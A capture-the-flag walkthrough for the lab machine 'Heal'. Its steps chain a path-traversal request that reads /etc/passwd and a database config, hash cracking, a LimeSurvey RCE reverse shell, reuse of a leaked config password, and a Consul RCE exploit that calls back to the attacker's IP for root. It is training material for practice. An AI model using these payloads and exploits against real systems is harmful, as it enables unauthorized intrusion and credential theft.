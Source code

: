  ## Step 1. Scanning 
 ``nmap -sC -sV --min-rate 3500 10.10.11.46``<br>
Port 22 and 80 are open
We also got the name of thhe domain.

## Step 2. Registering the domain to hosts
``echo "10.10.11.46 heal.htb/" | sudo tee -a /etc/hosts``

## Step 3. subdomain and directory search
- Used gobuster for this
- Found api.heal.htb which contained rubyonrails 
- Under this we got /robots.txt
- Under parent we got /robots.txt

- After signing up through heal.htb/ we come across a resume builder portal
- Exploring through endpoints we get another subdomain take-survey.heal.htb
- Adding that to /etc/hosts 
- We get a survey portal 
- for take-survey.heal.htb/index.php we get an admin email ralph@heal.htb

- There is a vulnerability in "Export as PDF" part of the resume uploaader
- Use burpsuite to intercept the request we get ``/download?filename=...``
- Chnage method to GET and use directory traversal 
- Also make sure to save Authorization token and place in the request
-`` GET /download?filename=/../../../../etc/passwd`` we get the file and see users ralph and ron using /bin/bash shell
- Similarly use ``../../config/database.yml`` to get database contents
- We can see the password for user in hash format use john the ripper to crack the password 

- Again use dirsearch command to search through http://take-survey.heal.htb/index.php/ ``dirsearch -u "http://take-survey.heal.htb/index.php/" -i 200 ``
- We can see different directories which have 200 status code
- Going through ``http://take-survey.heal.htb/index.php/admin/`` we come across a login portal
- Using the password and the username we got previously which we were unable to ssh to we get into a limesurvey portal

- Searching for limesurvey vulnerabilities i came across limesurvey rce vulnerability 
> https://github.com/Y1LD1R1M-1337/Limesurvey-RCE

- Following the steps i was able to get a reverse shell on the port
- and using python to get bash shell ``python3 -c "import pty;pty.spawn('/bin/bash')"``
- I came across the root directory
- exploring /var directory i came across ``/var/www/limesurvey/`` where there was a config file which had password AdmiDi0_pA$$w0rd
- Used the password to ssh login to user ralph but we could not but tried with user ron we were able to log in to
- We got user flag

- Inside the ron user use ``netstat -l`` to see if there are any activee listening ports
- We find different ports on localhost using localhost:8500
- ssh into that port using ``ssh -L 8500:127.0.0.1:8500 ron@heal.htb``
- Search for the localhost:8500 adress on the browser we come across a cluster overview ui
- Explorre aroound we find consul which has version 1.19.2
- Search for CVE for consul
- We find RCE for consul
- Download the exploit and save as pyhton file
- run the exploit ``python3 exploit.py 127.0.0.1 8500 10.10.14.25 6666 0 `` and listen on port 6666
- We are able to log in as root user
- ``cd ~`` to the root users directory where we can find root flag

